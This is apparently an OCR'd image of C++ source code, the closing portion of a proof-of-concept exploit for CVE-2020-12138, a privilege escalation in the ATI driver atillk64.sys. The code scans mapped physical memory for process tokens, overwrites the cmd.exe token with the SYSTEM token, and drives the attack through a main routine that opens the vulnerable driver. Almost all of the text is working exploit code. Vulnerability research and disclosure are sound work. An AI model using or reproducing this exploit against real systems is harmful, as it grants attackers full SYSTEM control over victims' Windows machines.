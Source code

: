```cpp
                cout << "    - Token value: " << hex << proc_token << "\n";
                cout << "    - Token address: " << hex << proc_token_addr
                    << "\n";
                cout << "    - UniqueProcessId: " << dec << pid_value << "\n\n";
            }
        }
        else
        {
            //DeviceIoControl failed
        }
    }
    if ((!cmd_token_addr) or (!SYSTEM_token))
    {
        cout << "[!] Token swapping requirements not met.\n";
        cout << "[!] Last physical address scanned: " << hex <<
            proc_data.proc_address.back() << ".\n";
        cout << "[!] Better luck next time!\n";
        exit(1);
    }
    else
    {
        *(PINT64)cmd_token_addr = SYSTEM_token;
        cout << "[>] SYSTEM and cmd.exe token info found, swapping tokens...\n";
        exit(0);
    }
}

void ascii() {

    cout << "\n\n\t     CVE-2020-12138 Proof-of-Concept\n";
    cout << "\t   EOP in ATI Technologies atillk64.sys\n\n";
    cout << "\t\t\t       by @h0mbre_\n\n\n";
}

int main() {

    ascii();

    // Grab handle to our device driver atillk64.sys
    HANDLE hFile = get_handle(DEVICE_NAME);

    // Return a pointer to our output buffer
    PROC_DATA proc_data = map_memory(hFile);

    // Look through our PROC_DATA struct for the values we need, ie EPROCESS
    // members for the processes we're interested in
    parse_procs(hFile, proc_data);
}
```
